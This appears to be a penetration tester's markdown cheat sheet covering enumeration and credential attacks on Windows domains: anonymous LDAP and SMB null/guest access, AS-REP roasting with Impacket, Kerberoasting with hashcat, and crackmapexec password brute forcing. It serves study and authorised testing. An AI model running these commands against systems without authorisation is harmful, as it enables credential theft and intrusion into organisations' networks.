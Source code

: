 # Windows technologies
How to enumerate windows tech

# LDAP
## Look for anonymous binds
`ldapsearch -H ldap://<ip>:<port> -b "dc=domain,dc=local" -x`    
**Make sure to look for users in the Remote Management Users group**    

## Get users with
`./windapsearch.py --dc-ip <ip> -d domain.local -u "" -U`
​
# SMB
## enum4linux
enum4linux is used to enumerate info on Samba systems

`enum4linux -U -o <ip>`

## smbpasswd
If crackmapexec gives the following error: **STATUS_PASSWORD_MUST_CHANGE**    
Shortcut:
`echo -e "oldpasswd\nnewpasswd\nnewpasswd" | (smbpasswd -U uname -r <ip>)`
​
## Check for guest or null access
*(Try each command separately)*
```sh
enum4linux -a -u "" -p "" <ip> && enum4linux -a -u "guest" -p "" <ip>

smbmap -u "" -p "" -P 445 -H <ip> && smbmap -u "guest" -p "" -P 445 -H <ip>

smbclient -U '%' -L //<ip> && smbclient -U 'guest%' -L //
```

# Kerberos
## GetNPUsers.py
Impacket's `GetNPUsers.py` will attempt to harvest the non-preauth AS_REP responses for a given list of usernames

### Usage:
`python3 GetNPUsers.py test.local/ -dc-ip <ip> -usersfile usernames.txt -format hashcat -outputfile hashes`


## Kerberoasting
Kerberoasting is a post-exploitation attack technique that attempts to obtain a password hash of an Active Directory account that has a Service Principal Name.

### Cracking the ticket
```bash
hashcat -m 13100 --force <hash_file> <password_file>
```

#### References
- [https://www.crowdstrike.com/cybersecurity-101/kerberoasting/](https://www.crowdstrike.com/cybersecurity-101/kerberoasting/)


# Tools for all tech
## crackmapexec

### Brute force users
Both the password and the username can either be a string or a file.    
**First, try to brute force the user(s) with their own name as a password to save time, if that doesn't work one can use a password list**
```
crackmapexec smb <ip> -u <user/file> -p <password/file> --continue-on-success
```